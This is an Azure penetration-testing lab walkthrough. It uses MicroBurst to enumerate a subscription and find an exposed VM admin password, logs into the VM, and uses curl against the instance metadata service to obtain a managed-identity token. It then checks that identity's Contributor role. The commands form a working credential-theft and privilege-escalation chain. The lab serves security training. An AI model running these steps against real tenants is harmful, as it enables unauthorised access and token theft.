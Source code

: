 
### Lab 5A - Credential Hunting
In this hands-on exercise, we will use the MicroBurst function – **`Get-AzDomainInfo`** to perform an authenticated enumeration of our Azure environment. 
* **NOTE**: For larger environments, you may need to restrict the information that MicroBurst is collecting. By using the Boolean flags associated with the parameters (Users, Groups, and so on), you can disable collecting information that you may not need. Note that user and group collection can take a long time for tenants with lots of users.


1. In a PowerShell console on your pentest VM, use the following commands to authenticate to Entra ID (Azure AD) and Azure as the **`readeruser`**. Replace the **`USERNAME`** and **`PASSWORD`** placeholders with the real values from the **`LABXX-Info`** exercise file.

```
$username = "USERNAME"
$password = "PASSWORD" | ConvertTo-SecureString -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential($username, $password)

Connect-AzAccount -Credential $cred
Connect-AzureAD -Credential $cred
```

2. Import the MicroBurst module into your PowerShell session with the following commands:
* If you receive some error messages about AzureRm, please ignore (AzureRm is deprecated and will be removed in a future release)
```
cd "$env:SystemDrive\PentestTools\Azure\Attack\MicroBurst"
Import-Module .\MicroBurst.psm1
```

3. Create a folder called **`microburst-output`** to store the output of the function that we are about to run using the following command:
```
New-Item -Name "microburst-output" -ItemType "directory"
```

4. Run the MicroBurst function to enumerate the Azure subscription using the following command. When a window opens displaying the subscription, click **`OK`** to proceed:
```
Get-AzDomainInfo -Verbose -Folder microburst-output
```
* The function will output the enumerated results in CSV and the text files will be stored in the specified output folder.

5. Open the output folder using the following command. This will open the **`microburst-output`** folder in File Explorer:
```
Invoke-Item -Path "$env:SystemDrive\PentestTools\Azure\Attack\MicroBurst\microburst-output"
```

6. You will see a single folder called Az in the opened view. Review the contents of the files and folders specified as follows. The content contains the resource inventory collected by the function (you can open the CSV files with Visual Studio Code):
* **`Az –> <Subscription Name> –> Users.csv`**: The content contains the user list collected by the function
* **`Az –> <Subscription Name> –> RBAC`**: The content contains lists of privileged users collected by the function

7. Open the text file where the enumerated resource group deployment information is stored. The file will be in the **`microburst-output –> Az –> <Subscription Name> –> Resources`** folder:

```
Invoke-Item -Path "$env:SystemDrive\PentestTools\Azure\Attack\MicroBurst\microburst-output\Az\ProdSubscription\Resources\Deployments.txt"
```

8. You should see a **`vmName`**, **`adminUsername`**, and **`adminPassword`** in the output. Copy the SSH command that is displayed in the **`Output`** (You can use CNTRL + F to find this) and paste it into PowerShell. Type **`yes`** and press **`Enter`** when prompted about the fingerprint. Enter the password that you copied from the deployment file and press Enter.

9. You should now have shell access to the Linux VM using the credentials exposed in the resource group deployment output. From here, we can look for opportunities to move laterally or escalate privileges. In this case, let's check to see whether this Linux VM has a managed identity associated with it. As part of checking for the managed identity, we will be querying the Azure Instance Metadata Service (IMDS).

* **Important note**
  * The IMDS is a REST API endpoint that is available at a non-routable IP address (169.254.169.254) from within a VM instance. It can be used to obtain information about the instance platform configuration and to request access tokens if the instance is assigned a managed identity. It requires a specific header (Metadata:true) to be present, so this typically requires you to make requests to the service via command execution. You can learn more about it from this documentation: https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service.

10. Review the Azure VM instance metadata to obtain more information about how the VM is configured in Azure. You can do this with the following commands:
```
curl -H Metadata:true --noproxy "*" "http://169.254.169.254/metadata/instance?api-version=2020-09-01" | jq
```

11. Check whether the VM has an associated managed identity using the following command. If one is used, an **`access_token`** will be returned and this could present an opportunity to escalate privileges:
```
curl -H Metadata:true -s 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' | jq
```

12. You can see here that we got an access token for the Azure management plane (Resource Manager). This token can now be used to interact with the Azure REST APIs. 

13. While we could use the access token with the Azure REST APIs, it's much easier to use the Azure CLI to interact with the subscription. Log in with the VM's managed identity using the following command:
```
az login --identity
```

14. Let's verify the permissions that this identity has using the following two commands.
First, we will make a request for the LinuxVM resource information and cast it to the appid variable. In another environment, the $HOSTNAME environment variable can also be referenced instead of the hardcoded VM name used here:
```
appid=$(az resource list --query "[?name=='LinuxVM'].identity.principalId" --output tsv)
```

15. Using the appid variable, we will list the role assignments for the subscription, specifically querying for the principal name, role name, type, and scope:
```
az role assignment list --assignee $appid --include-groups --include-inherited --query '[].{username:principalName, role:roleDefinitionName, usertype:principalType, scope:scope}'
```

Awesome! This VM has the Contributor role applied at the subscription scope! This means that we now have write access to the subscription. We hunted for a credential that gave us a path to escalated permissions from Reader to Contributor.
